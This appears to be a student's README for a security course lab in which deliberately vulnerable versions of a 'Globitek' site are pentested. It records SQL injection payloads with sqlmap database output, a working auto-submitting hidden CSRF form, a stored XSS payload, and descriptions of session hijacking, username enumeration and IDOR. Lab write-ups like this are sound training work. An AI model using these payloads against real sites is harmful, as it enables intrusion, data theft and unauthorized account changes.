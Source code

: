 # Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQLi

Blue site vulnerable to SQLi. Using sqlmap utility, with endpoint "/blue/public/salesperson.php?id=1", results:
sqlmap identified the following injection point(s) with a total of 205 HTTP(s) requests:

```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4778=4778 AND 'jfPB'='jfPB

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: id=1' OR SLEEP(5)#
---
```

After inject point was found, DB tables and sensitive data was exposed from all 3 of the sites (red/blue/green):

```
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
available databases [7]:
[*] globitek_blue
[*] globitek_green
[*] globitek_red
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

For instance, using sqlmap to probe globitek_blue tables, we find:

```
Database: globitek_blue
[8 tables]
+-------------------------+
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |
+-------------------------+
```

![Gif of 5](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/5.gif?raw=true)

Vulnerability #2: Cross Site Request Forgery

    The blue site doesn't need a CSRF token to carry out admin-level work, such as editing a user's profile. By creating a hidden form that is automatically submitted (without notifying the user of submission results), we can be stealthy. For example, by using a hidden form which will not display submission results, we can send a POST request by linking it to a logged in admin. In this example, I've linked the malicious form to the admin through the "contact us" page.
    
    ```
    <html><body onload="document.bank_form.submit()"><form action="https://35.184.242.122/red/public/staff/users/edit.php?id=4" method="POST" name="bank_form" style="display: none;" target="hidden_results" ><input type="text" name="first_name" value="MALICIOUSALTEREDVALUE"/><input type="text"/></form> <iframe name="hidden_results" style="display: none;"></iframe> </body> </html>
    ```

![Gif of 8](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/8.gif?raw=true) 




## Green

Vulnerability #1: Cross-site Scripting
    Green site is vulnerable to stored XSS attacks. Any user can submit feedback to the admin of the site, and the feedback is not properly sanitized.
    Submitting a form with comment like
    ```
    <script>alert('XSS attack');</script>
    ```
    we can demonstrate the effect when the admin views it from their browser (seen below):

![Gif of 6](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/6.gif?raw=true)

Vulnerability #2: Session Hijacking / Fixation
Green site allows sessions to be a year old, and never regenerates the session ID, even when the user agent string changes. This makes it vulnerable to both session hijacking and session fixation attacks.  This is demonstrated by opening two browser instances. In the first, we will log in as an admin. We will then discover the session id using the provided tool, and give and set it to browser 2. With this id, browser 2 can bypass the login process. Uh-oh!

![Gif of 9](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/9.gif?raw=true)


## Red

Vulnerability #1: Username Enumeration

    The red site is vulnerable to username enumeration, because attempting to login too many times will lock out the account from trying for x minutes. This is prompt confirms that the username exists in the system (accounts that do not exist will not throw this error message after 3 attempts)


![Gif of 7](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/7.gif?raw=true)

Vulnerability #2: IDOR

Able to access salespeople who have been fired or inactive. Simply altering the url for the id request of a salesperson will give anyone access to a page not desired to be shown.

![Gif of 10](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/10.gif?raw=true)



## Notes

Describe any challenges encountered while doing the work
